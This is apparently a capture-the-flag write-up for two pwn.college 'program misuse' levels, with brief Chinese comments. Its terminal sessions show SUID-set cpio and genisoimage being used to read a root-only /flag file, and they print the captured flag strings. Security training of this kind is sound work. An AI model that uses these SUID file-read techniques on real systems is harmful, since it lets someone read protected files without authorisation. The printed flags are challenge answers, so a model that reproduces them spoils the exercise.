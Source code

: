 ## level22 Forces you to understand different archive formats!

```
hacker@program-misuse-level-22:~$ sh file.sh
Welcome to ./babysuid_level22!

This challenge is part of a series of programs that
force you to understand different archive formats.

I just set the SUID bit on /usr/bin/cpio.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level22) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/cpio!
```
`cpio`工具，用于文件备份的
```
hacker@program-misuse-level-22:~$  find /flag | cpio -ov > archive.cpio
/flag
1 block
hacker@program-misuse-level-22:~$ ls /
bin   challenge  etc   home  lib32  libx32  mnt  proc  run   srv  tmp  var
boot  dev        flag  lib   lib64  media   opt  root  sbin  sys  usr
hacker@program-misuse-level-22:~$ ls
Desktop    Downloads  Pictures  Templates  archive.cpio  file.sh
Documents  Music      Public    Videos     core          test.py
hacker@program-misuse-level-22:~$ cat archive.cpio
�wd�9/flagpwn.college{om324dLj5vHeY7kTe9p_qAFQ1Cy.0FN2EDL2QjMyMzW}
�
 TRAILER!!!hacker@program-misuse-level-22:~$
```

## level23 Forces you to understand different archive formats!

```
hacker@program-misuse-level-23:~$ sh file.sh
Welcome to ./babysuid_level23!

This challenge is part of a series of programs that
force you to understand different archive formats.

I just set the SUID bit on /usr/bin/genisoimage.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level23) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/genisoimage!
```
`genisoimage`工具，能看出来作用是建立ISO 9660映像文件
```
er@program-misuse-level-23:~$  genisoimage -sort /flag
genisoimage: Incorrect sort file format
        pwn.college{YROFw7Q_KvLF86Vs3WeI_XDvziT.0VN2EDL2QjMyMzW}
hacker@program-misuse-level-23:~$
```
*这块儿好像cat不太星了，输出会打乱shell*
